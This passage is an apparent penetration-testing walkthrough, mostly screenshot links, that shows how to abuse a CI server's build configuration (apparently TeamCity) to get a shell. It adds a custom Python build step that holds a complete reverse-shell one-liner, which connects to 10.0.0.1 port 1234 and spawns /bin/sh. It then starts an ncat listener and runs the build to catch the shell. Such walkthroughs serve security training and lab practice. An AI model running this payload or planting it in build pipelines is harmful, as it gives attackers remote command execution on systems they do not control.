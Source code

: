 ```

![image](https://user-images.githubusercontent.com/69868171/117675982-1b2d9d00-b17b-11eb-8f07-9830cebb09d7.png)

Click on it to create new build configuration.

![image](https://user-images.githubusercontent.com/69868171/117676598-b0309600-b17b-11eb-9feb-2d2655fe08cc.png)

Click and create and we should get a new page like that below;

![image](https://user-images.githubusercontent.com/69868171/117676805-e110cb00-b17b-11eb-8c41-84bdcf8ba5f7.png)

Let go back to the homepage again to click on the project again.

![image](https://user-images.githubusercontent.com/69868171/117676903-f980e580-b17b-11eb-9edf-429fd88a301f.png)

Now let click on Edit Configuration Settings .

![image](https://user-images.githubusercontent.com/69868171/117677035-187f7780-b17c-11eb-9bee-9379e40cc282.png)

Now click on Build steps .

![image](https://user-images.githubusercontent.com/69868171/117677178-377e0980-b17c-11eb-9e2e-1d7078f5f4ad.png)

Now add build step .

![image](https://user-images.githubusercontent.com/69868171/117677244-49f84300-b17c-11eb-80fb-598eba44f4f6.png)

Let go through it and pick python.

![image](https://user-images.githubusercontent.com/69868171/117677429-714f1000-b17c-11eb-9ea5-52054fb8b759.png)

On command we pick custom script now time to add the python reverse shell script to the box with the name scripts.

`import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);` 

Now add our Local-IP address and port also start an ncat listener to get our shell.

![image](https://user-images.githubusercontent.com/69868171/117677892-dd317880-b17c-11eb-972c-2b629db433c6.png)

Now let click on save. 

![image](https://user-images.githubusercontent.com/69868171/117678016-005c2800-b17d-11eb-8251-6499b890a274.png)

Now Click On Run we should have our shell.

![image](https://user-images.githubusercontent.com/69868171/117678103-12d66180-b17d-11eb-9c2b-a552ec046756.png)

And boom we have shell back.

```